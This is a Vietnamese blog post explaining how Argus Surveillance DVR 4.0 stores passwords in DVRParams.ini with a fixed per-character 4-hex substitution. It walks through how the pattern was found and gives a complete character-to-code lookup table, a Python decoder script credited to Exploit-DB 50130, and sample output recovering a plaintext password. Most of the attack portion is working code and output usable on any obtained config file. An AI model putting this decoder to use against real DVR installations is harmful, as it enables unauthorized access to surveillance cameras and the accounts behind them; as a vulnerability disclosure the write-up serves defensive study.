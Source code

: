 ```yaml
---
title: Bẻ khóa mật khẩu ứng dụng giám sát camera Argus
date: 19/7/2021
layout: single
header:
  teaser: /assets/images/crack.jpg
---
```

## Mô Tả 
Trong một lần gần đây nhất, tôi đã xem `Argus Surveillance DVR 4.0` đang sử dụng mã hóa yếu cho mật khẩu.

+ Phiên bản:  Argus Surveillance DVR 4.0
+ Tác giả: Salman Asad (@deathflash1411)
+ Thử nghiệm: Windows 7 x86 (Build 7601) & Windows 10

## Khai thác  
Argus Surveillance DVR 4.0 đang lưu trữ cấu hình trong một tệp có tên `DVRParams.ini`nằm trong
 `C:\ProgramData\PY_Software\Argus Surveillance DVR`


![](https://i.imgur.com/KYcjQOM.png)
+ Đã tạo một tài khoản thử nghiệm với kiểm tra tên người dùng và kiểm tra mật khẩu

![](https://i.imgur.com/cbwtBsN.png)
+ Cấu hình đang lưu trữ mật khẩu của người dùng dưới dạng băm 

+ Một điều thú vị  là bốn ký tự đầu tiên và bốn ký tự cuối cùng trong mã băm giống nhau `E03B`vì mật khẩu của  đã được kiểm tra trong đó ký tự đầu tiên và ký tự cuối cùng giống nhau `t`

+ Điều này xác nhận rằng `t=E03B` , Tôi đã giả định rằng mỗi ký tự trong mật khẩu có 4 ký tự trong hàm băm
+ ![](https://i.imgur.com/cZhNqwc.png)
+ Thật thú vị, hãy thay đổi mật khẩu thành `1234567890` (10 ký tự)
![test](https://i.imgur.com/trhdvQE.png)
+ Đây là hàm băm mật khẩu mới trong `DVRParams.ini`
![](https://i.imgur.com/NM50Tbq.png)
+ Giả định của tôi là đúng vì hàm băm mật khẩu dài chính xác 40 ký tự (10 * 4)

+ Tương tự, tôi đã thay đổi mật khẩu thành `abc...xyz`và `ABC...XYZ`và ghi lại các giá trị cho mỗi ký tự

+ Dựa trên những phát hiện ở trên, tôi đã viết một đoạn mã đơn giản để giải mã hàm băm mật khẩu

Mã khai thác: [exploits/50130](https://www.exploit-db.com/exploits/50130)

```python
characters = {
'ECB4':'1','B4A1':'2','F539':'3','53D1':'4','894E':'5',
'E155':'6','F446':'7','C48C':'8','8797':'9','BD8F':'0',
'C9F9':'A','60CA':'B','E1B0':'C','FE36':'D','E759':'E',
'E9FA':'F','39CE':'G','B434':'H','5E53':'I','4198':'J',
'8B90':'K','7666':'L','D08F':'M','97C0':'N','D869':'O',
'7357':'P','E24A':'Q','6888':'R','4AC3':'S','BE3D':'T',
'8AC5':'U','6FE0':'V','6069':'W','9AD0':'X','D8E1':'Y','C9C4':'Z',
'F641':'a','6C6A':'b','D9BD':'c','418D':'d','B740':'e',
'E1D0':'f','3CD9':'g','956B':'h','C875':'i','696C':'j',
'906B':'k','3F7E':'l','4D7B':'m','EB60':'n','8998':'o',
'7196':'p','B657':'q','CA79':'r','9083':'s','E03B':'t',
'AAFE':'u','F787':'v','C165':'w','A935':'x','B734':'y','E4BC':'z'}

pass_hash = "418DB740F641E03B956BE1D03F7EF6419083956BECB453D1ECB4ECB4"
if (len(pass_hash)%4) != 0:
    print("[!] Error, check your password hash")
    exit()
split = []
n = 4
for index in range(0, len(pass_hash), n):
    split.append(pass_hash[index : index + n])

for key in split:
    if key in characters.keys():
        print("[+] " + key + ":" + characters[key])
    else:
        print("[-] " + key + ":Unknown")

```
```powershell
#########################################
#    _____ Surveillance DVR 4.0         #
#   /  _  \_______  ____  __ __  ______ #
#  /  /_\  \_  __ \/ ___\|  |  \/  ___/ #
# /    |    \  | \/ /_/  >  |  /\___ \  #
# \____|__  /__|  \___  /|____//____  > #
#         \/     /_____/            \/  #
#        Weak Password Encryption       #
############ @deathflash1411 ############

[+] 418D:d
[+] B740:e
[+] F641:a
[+] E03B:t
[+] 956B:h
[+] E1D0:f
[+] 3F7E:l
[+] F641:a
[+] 9083:s
[+] 956B:h
[+] ECB4:1
[+] 53D1:4
[+] ECB4:1
[+] ECB4:1

```

Lưu ý: thay thế giá trị của `pass_hash`trong tập lệnh bằng mã băm mật khẩu bạn lấy được từ `DVRParams.in`

## Cảm Ơn :D


